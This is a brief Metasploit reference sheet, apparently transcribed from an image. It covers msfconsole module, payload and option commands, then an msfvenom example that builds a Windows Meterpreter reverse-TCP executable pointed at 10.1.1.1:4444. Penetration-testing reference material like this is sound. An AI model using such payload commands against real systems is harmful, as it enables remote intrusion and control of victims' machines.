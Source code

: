 ## MetaSploit ##

Search for module: 
`search MODULE`

Specify and exploit to use:
` use exploit/[ExploitPath]`

Specify a Payload to use: 
`set PAYLOAD [PayloadPath]`

Specify a Payload to use: 
`set PAYLOAD [PayloadPath]`

Set options: 
`set [Option] [Value]`

Move files to/from the target 
machine
`download / upload`


**msfvenom**

*The msfvenom tool can be used to generate Metasploit
payloads (such as Meterpreter) as standalone files and 
optionally encode them. This tool replaces the former 
msfpayload and msfencode tools. Run with 
‘'-l payloads’ to get a list of payloads.*

`msfvenom –p [PayloadPath] 
–f [FormatType] 
LHOST=[LocalHost (if reverse conn.)] 
LPORT=[LocalPort]`

Example:

`msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=10.1.1.1 
LPORT=4444 > met.exe`